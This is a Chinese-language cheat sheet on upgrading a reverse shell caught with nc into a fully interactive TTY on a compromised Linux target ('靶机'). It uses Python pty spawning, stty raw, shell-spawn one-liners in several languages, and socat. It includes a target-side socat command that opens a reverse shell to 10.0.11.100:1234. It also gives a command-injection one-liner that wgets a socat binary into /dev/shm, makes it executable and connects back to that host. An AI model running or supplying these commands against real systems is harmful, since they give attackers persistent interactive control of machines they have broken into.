

# Linux 反向 shell 升级为完全可用的 TTY shell

## 升级远程 shell（仅限 Unix 机器）

通常，在通过 nc 捕获 shell 之后，会在一个功能非常有限的 shell 中。例如没有命令历史记录（并使用向上“”和“向下”箭头循环浏览它们）和文件名称、命令自动完成等。在缺少这些功能的 shell 中查询或操作会比较麻烦。

**注意**：要检查 shell 是否是 TTY shell，请使用 `tty` 命令。

#### rlwrap

可以通过使用 rlwrap 命令包装 nc 侦听器来减轻对 shell 的一些限制。默认情况下不会安装它，需要使用 `sudo apt rlwrap` 或 `apt-get install rlwrap` 安装。

```bash
rlwrap nc -lvnp $port
```

#### 使用 Python 升级到完全交互式 shell：

1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

1. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

1. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

1. 键入 ctrl-z 以将 shell 发送到后台。
2. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
```

回车一次后输入 reset 再回车将再次进入 shell 中：



到此 TTY shell 升级完成。

#### 其他语言写入交互式 shell：

```bash
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

#### 使用 socat

另一种方法是将 socat 二进制文件上传到靶机并获得一个完全交互式的 shell。从 https://github.com/andrew-d/static-binaries 下载适当的二进制文件。Socat 需要在两台机器上才能工作。

```bash
#在本地监听：:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#靶机:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果在命令注入的地方注入反弹 shell，获得即时完全交互式的反向 shell：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果靶机访问不了互联网，就先把 socat 文件下载下来，开启 http 服务，然后将上面的路径指向你的本地地址。
